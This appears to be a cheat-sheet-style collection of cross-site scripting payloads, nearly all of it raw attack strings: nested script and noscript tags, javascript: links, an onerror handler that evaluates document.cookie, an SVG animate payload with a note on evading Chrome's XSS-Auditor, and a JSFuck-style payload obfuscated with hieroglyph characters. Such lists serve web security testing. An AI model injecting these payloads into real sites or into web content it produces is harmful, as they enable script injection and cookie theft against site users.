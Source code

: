 <output>
<noscript onerror=prompt(0);><a href="javascript:alert("XSS")>XSS</a>"><script onerror="<noscript onerror="<script>alert("XSS")</script>"><IMG src=<script src="/">alert(" "XSS" ")</script></noscript>"<script>alert("XSS")</script></noscript>
</output>
<a href="javascript&colon;alert&lpar;document&period;domain&rpar;">Click Here</a>

<img src=x onerror="eval('alert(document.cookie)')"/>
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
<svg><animate xlink:href=#x attributeName=href values=&#106;avascript:alert(1) /><a id=x><rect width=100 height=100 /></a>This payload injects a malicious script into an SVG element. The script sets the href attribute of the animate element to javascript:alert(1), which will execute the alert function when clicked. Since the script is injected into an SVG element, the Chrome XSS-Auditor fails to detect it.
<a href=”#” onclick=”… var input=’controllable data here’; …”>


𓅂='',𓂀=!𓅂+𓅂,𓁄=!𓂀+𓅂,𓊎=𓅂+{},𓆣=𓂀
[𓅂++],𓊝=𓂀[𓇎=𓅂],𓏢=++𓇎+𓅂,𓆗=𓊎[𓇎+𓏢
],𓂀[𓆗+=𓊎[𓅂]+(𓂀.𓁄+𓊎)[𓅂]+𓁄[𓏢]+𓆣+
𓊝+𓂀[𓇎]+𓆗+𓆣+𓊎[𓅂]+𓊝][𓆗](𓁄[𓅂]+𓁄[
𓇎]+𓂀[𓏢]+𓊝+𓆣+'`𓅂 𓏢 𓂀 𓁄 𓆣 𓊝 𓇎`')``
